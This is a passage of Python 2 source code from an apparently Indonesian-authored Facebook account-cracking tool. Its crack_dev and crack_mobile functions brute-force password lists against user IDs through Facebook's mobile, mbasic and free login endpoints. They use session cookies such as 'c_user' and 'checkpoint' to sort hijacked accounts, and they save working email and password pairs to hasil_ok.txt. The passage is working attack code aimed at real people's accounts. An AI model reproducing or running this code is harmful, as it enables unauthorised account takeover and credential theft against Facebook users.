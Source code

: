 				if "c_user" in login_dev:
					if eml_dev in hasil_ok:
						pass
					else:
						print a+"\r{"+p+"Live"+a+"}"+h+" {:<15}\033[96;1m | \033[97;1m{}".format(eml_dev,san_dev)
						with open("hasil_ok.txt", "a") as hasil:
							hasil.write("[Live] "+ eml_dev + " | " + san_dev +"\n")
						hasil_ok.append(eml_dev)
						break
				elif "checkpoint" in login_dev:
					eml_dev = login_dev.get_dict()["checkpoint"].split("%")[4].replace("3A", "")
					if len(iqbal_) == 2:
						if eml_dev in hasil_cp:
							pass
						else:
							__ttl__cp_(eml_dev, ttl, san_dev)
							break
					else:
						if eml_dev in hasil_cp:
							pass
						else:
							__cp__(eml_dev, san_dev)
							break
				else:
					pass
		except:
			count_ -=1
			crack_dev(iqbal_, dev___)

def crack_mobile(iqbal_, dev__):
  try:
	global count_, user_agent
	eml_dev = iqbal_
	print a+"\r>\033[92;1mCrack\033[96;1m->\033[97;1m{}\033[92;1m/\033[97;1m{}\033[96;1m|\033[92;1mLive\033[96;1m/\033[93;1mCek:\033[92;1m{}\033[96;1m/\033[93;1m{}".format(len(user_id),count_,len(hasil_ok),len(hasil_cp)),
	sys.stdout.flush()
	count_ +=1
	if 2 == len(eml_dev):
		eml_dev = eml_dev[0]
		ttl = iqbal_[1]

	for san__ in dev__: 
		san_dev = san__.lower()
		url = "https://m.facebook.com/login/?ref=dbl&fl"
		with requests.Session() as ses_dev:

			if "IqbalDev" in log_mbasic_dev:
				url = "https://mbasic.facebook.com/login/?ref=dbl&fl"
				
			if "IqbalDev" in log_free_dev:
				url = "https://free.facebook.com/login.php"
		
